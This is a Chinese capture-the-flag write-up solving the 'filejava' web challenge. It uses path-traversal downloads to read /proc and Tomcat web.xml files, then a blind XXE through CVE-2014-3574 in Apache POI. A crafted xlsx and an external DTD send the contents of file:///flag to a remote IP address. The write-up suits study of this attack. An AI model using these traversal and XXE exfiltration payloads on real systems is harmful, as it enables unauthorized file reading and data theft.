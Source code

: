 # \[网鼎杯 2020 青龙组]filejava

## \[网鼎杯 2020 青龙组]filejava

## 考点

* 任意文件下载
* Java代码审计
* blind xxe
* CVE-2014-3574

## wp

文件上传功能，上传之后有个文件下载功能

![](<../.gitbook/assets/image (24) (1).png>)

![](<../.gitbook/assets/image (12).png>)

有文件下载，尝试下载`/proc/self/cmdline`，多次测试发现下载链接是`../../../../../../../../../proc/self/cmdline`

![](<../.gitbook/assets/image (26).png>)

再读取`../../../../../../../../../proc/self/environ`

![](<../.gitbook/assets/image (34) (1).png>)

可以发现Tomcat的目录是`/usr/local/tomcat/`，可以读取Tomcat的`web.xml`，`../../../../../../../../../usr/local/tomcat/conf/web.xml`，它定义了系统的Servlet规范

然后读取web应用程序的web.xml，`../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml`，其中定义了web程序的Servlet规范

{% code title="WEB-INF/web.xml" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>DownloadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.DownloadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>DownloadServlet</servlet-name>
        <url-pattern>/DownloadServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>ListFileServlet</servlet-name>
        <servlet-class>cn.abc.servlet.ListFileServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>ListFileServlet</servlet-name>
        <url-pattern>/ListFileServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>UploadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.UploadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>UploadServlet</servlet-name>
        <url-pattern>/UploadServlet</url-pattern>
    </servlet-mapping>
</web-app>
```
{% endcode %}

依次下载源码，用jd-gui反编译得到源码

ListFileServlet是获取/WEB-INF/upload目录下的文件

DownloadServlet是下载filename传入的文件，它不能是空且不包含flag字符串，然后返回文件内容

{% code title="UploadServlet" %}
```java
......
        if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }  
......
```
{% endcode %}

代码中对上传文件做了判断，如果文件名以`excel-`开头，且以`xlsx`作为后缀，就使用`org.apache.poi.ss.usermodel.WorkbookFactory`类进行操作，这里是有个cve，即CVE-2014-3574。

新建`excel-test.xlsx`文件，然后解压

![](<../.gitbook/assets/image (37).png>)

修改`[Content_Types].xml`为如下内容

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://81.68.218.54:20010/file.dtd">
%remote;%int;%send;
]>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types"><Default Extension="bin" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.printerSettings"/><Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/><Default Extension="xml" ContentType="application/xml"/><Override PartName="/xl/workbook.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.sheet.main+xml"/><Override PartName="/xl/worksheets/sheet1.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/worksheets/sheet2.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/worksheets/sheet3.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/theme/theme1.xml" ContentType="application/vnd.openxmlformats-officedocument.theme+xml"/><Override PartName="/xl/styles.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.styles+xml"/><Override PartName="/docProps/core.xml" ContentType="application/vnd.openxmlformats-package.core-properties+xml"/><Override PartName="/docProps/app.xml" ContentType="application/vnd.openxmlformats-officedocument.extended-properties+xml"/></Types>
```

vps上的dtd文件如下，再监听端口

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://81.68.218.54:20011?p=%file;'>">
```

然后重新打包为xlsx文件，这里就直接右键->7z打开压缩包，再右键编辑

![](<../.gitbook/assets/image (21) (1).png>)

保存直接上传即可

![](<../.gitbook/assets/image (36).png>)

## 小结

1. blind XXE
2. Tomcat目录结构
